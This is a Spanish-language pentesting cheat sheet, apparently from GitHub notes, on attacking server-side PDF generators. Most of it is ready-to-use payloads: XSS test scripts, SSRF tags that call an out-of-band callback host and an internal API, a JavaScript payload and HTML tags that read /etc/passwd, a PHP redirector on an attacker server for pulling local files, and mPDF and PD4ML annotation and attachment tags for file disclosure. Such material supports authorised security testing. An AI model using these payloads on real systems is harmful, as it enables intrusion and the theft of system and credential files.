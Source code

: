 ### JS

Si la creación del PDF no está correcamente sanitizada, encontraremos que en momento de la ejecución el payload se ejecutará. Esto también es conocimo como server-side XSS.

Podemos testearlo ingresando payloads como:

    <script>document.write('test1')</script>

o

    <script>document.write(window.location)</script>

### SSRF

#### TEST

Es una de las vulnerabilidades más comunes en la generación de PDFs en la web. Esto es debido a que muchas de las fuentes de estilos o imagenes necesarias para generar el PDF se encuentran en internet, por lo que 
el generador necesitará hacerles un fetch.

Podemos entonces forzar al server a hacer una request GET a una URL que nosotros nos interese.

Para probarlo solamente necesitaríamos crear una imageno un stylesheet que apunte a una URL o servidor bajo nuestro poder:

Imagen:

    <img src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest1"/>

Stylesheet:

    <link rel="stylesheet" href="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest2" >


Por supuesto, muchas de estas request van a ser de tipo BLIND, ya que no tendrán realmente qué mostrar. Para materializarlas en el PDF podríamos usar un iframe que dispare una request.

    <iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>

#### SSRF exploitation

Si todo va bien,  podríamos entonces aprovechar la SSRF para llegar a servicios internos o abusar de las relaciones de confianza para alcanzar secciones prohibidas dentro de la web debido a la falta de privilegios. 
O, incluso, exfiltrar datos de una API:

    <iframe src="http://127.0.0.1:8080/api/users" width="800" height="500"></iframe>


### LFI

Podemos aprovechar el  objeto XmlHttpRequests para exfiltrar contenido de archivos del sistema y volverlos a base64(esto es debido a que el contenido de algunos archivos puede romper al generador). A su vez, los generadores de PDF no suelen pensar en líneas
con lo cual, no llegaremos a leer el base64 completo por su tamaño, de esta manera deberemos agregar una funcionalidad a nuestro payload para generar estos saltos de línea:

    <script>
    	function addNewlines(str) {
    		var result = '';
    		while (str.length > 0) {
    		    result += str.substring(0, 100) + '\n';
    			str = str.substring(100);
    		}
    		return result;
    	}
    
    	x = new XMLHttpRequest();
    	x.onload = function(){
    		document.write(addNewlines(btoa(this.responseText)))
    	};
    	x.open("GET", "file:///etc/passwd");
    	x.send();
    </script>

Si el backend no ejecuta el JS, podemos probar otros payloads con etiquetas HTML:

    <iframe src="file:///etc/passwd" width="800" height="500"></iframe>
    <object data="file:///etc/passwd" width="800" height="500">
    <portal src="file:///etc/passwd" width="800" height="500">


#### Exfiltración mediante un PHP redirector

Puede ser que en los casos anteriores de LFI el servidor no mmuestre los resultados mostrándonos solamente un IFRAME vacío. Podríamos combinar el SSRF y el LFI para confundir al server y que este nos devuelva el archivo que buscamos aprovechando o abusando las redirecciones creadas desde un server propio:

1) Creamos un archivo php con el siguiente código:

        <?php header('Location: file://' . $_GET['url']); ?>
2) Levantamos un servidor php en la ubicación del archivo
3) Inyectamos el siguiente payload en el PDF generator:
   
        <iframe src="http://<nuestra-ip>/archivo.php?url=%2fetc%2fpasswd" width="800" height="500"></iframe>

#### Annotations

Muchos archivos PDF soportan características avanzadas como **annotations** y **attachments**

Deberemos ver, una vez que sabemos la librería que se está usando si esta soporta alguna de estas dos características y cómo las usa. 

A modo de ejemplo: mPDF soporta annotations mediante la tag con su mismo nombre. 

        <annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />

PD4ML usa attachments con la siguiente sintaxis:

        <pd4ml:attachment src="/etc/passwd" description="LFI" icon="Paperclip"/>
